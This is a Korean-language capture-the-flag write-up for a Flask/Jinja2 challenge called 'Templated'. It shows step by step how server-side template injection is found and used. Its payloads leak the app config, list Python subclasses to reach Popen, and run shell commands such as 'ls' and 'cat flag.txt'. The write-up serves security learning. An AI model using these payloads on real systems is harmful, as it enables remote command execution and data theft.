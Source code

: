 # Templated
![image](https://github.com/user-attachments/assets/096d5d62-f741-40b6-bf54-70eef9ad1a74)
- 소스코드가 제공되지않는 블랙박스 형식의 문제
- flask 로 was를 구동하고있으며, 템플릿은 jinja2 엔진을 사용

## PoC
![image](https://github.com/user-attachments/assets/e6b60b39-08e6-4677-9f7c-1563a78abbc3)
- 위와같이 경로에 값을 넣을경우 값 그대로 출력한다는것을 확인
- SSTI 문제인듯 하여 테스트
  
![image](https://github.com/user-attachments/assets/4910f95b-027a-48bc-822c-ddd9d3e27935)
- ```{{config}}```입력 시 설정값 노출 확인

![image](https://github.com/user-attachments/assets/014519aa-18d4-4c6c-b9a7-275aa05c244f)
- ```{{''.__class__.__mro__[1].__subclasses__()[0:]}}```입력 후 인덱스를 조정하여 ```Popen()```클래스를 찾는다.

![image](https://github.com/user-attachments/assets/d48a5de7-4e44-4635-a2ac-a2c690765ed6)
- ```{{''.__class__.__mro__[1].__subclasses__()[414]('ls',shell=True,stdout=-1).communicate()}}```
- 414번째에 있는 ```Popen()```클래스를 사용하여 쉘에서 ls 명령어를 실행한 결과를 반환

![image](https://github.com/user-attachments/assets/9ec13d74-f9c2-4b93-9edd-fb058961764c)
- ```{{''.__class__.__mro__[1].__subclasses__()[414]('cat flag.txt',shell=True,stdout=-1).communicate()}}```
- flag.txt 읽기

